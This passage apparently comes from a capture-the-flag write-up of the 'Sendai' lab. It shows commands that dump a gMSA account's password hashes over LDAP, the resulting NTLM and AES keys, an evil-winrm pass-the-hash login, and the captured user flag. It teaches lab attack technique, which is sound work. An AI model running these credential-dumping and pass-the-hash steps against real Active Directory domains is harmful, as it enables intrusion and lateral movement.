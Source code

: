 ```bash
python gMSADumper.py -u 'thomas.powell' -p '$mav1234' -d sendai.vl -l 10.10.91.145
```
Output

```bash
sers or groups who can read password for mgtsvc$:
 > admsvc
mgtsvc$:::9ed35c68b88f35007aa32c14c1332ce7
mgtsvc$:aes256-cts-hmac-sha1-96:b2f72eaef63eca98153069e3a9f5122c57dc82b5afe8b2f0df18dd3ba23b7500
mgtsvc$:aes128-cts-hmac-sha1-96:0f2a0b6230bbb641a864ca2b270708b1
                                                              
```

```bash
nxc ldap  sendai.vl -u 'thomas.powell' -p '$mav1234'  --gmsa 
```

### output

```output

LDAP        10.10.91.145    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
LDAPS       10.10.91.145    636    DC               [+] sendai.vl\thomas.powell:$mav1234 
LDAPS       10.10.91.145    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.91.145    636    DC               Account: mgtsvc$              NTLM: 9ed35c68b88f35007aa32c14c1332ce7     PrincipalsAllowedToReadPassword: admsvc
                      
```


## WinRM Access with MGTSVC$ — Living Off the Land!
After validating the MGTSVC$ hash, it was confirmed to be valid for authentication, allowing remote access via WinRM. This access demonstrates the potential for leveraging existing service credentials to perform administrative tasks and highlights the importance of monitoring and securing service accounts to prevent unauthorized lateral movement within the environment.

## Privilege Escalation Time

The next phase involves systematically enumerating the target system for potential privilege escalation vectors. Key tools for Windows privilege escalation include WinPEAS for comprehensive system checks, PrivCheck for targeted enumeration, and guidance from reputable security research sources, such as the work of itm4n, which provides extensive insight into Windows misconfigurations. By executing these checks, we can identify misconfigurations, weak permissions, and exploitable services that could allow elevation of privileges, while documenting findings for remediation or reporting purposes.

```bash
evil-winrm -i sendai.vl -u  mgtsvc$ -H  9ed35c68b88f35007aa32c14c1332ce7 
```
#### FLAG
```output
*Evil-WinRM* PS C:\> cat user.txt
VL{e015461ca5ecaeb714cb231fd719be62}
```
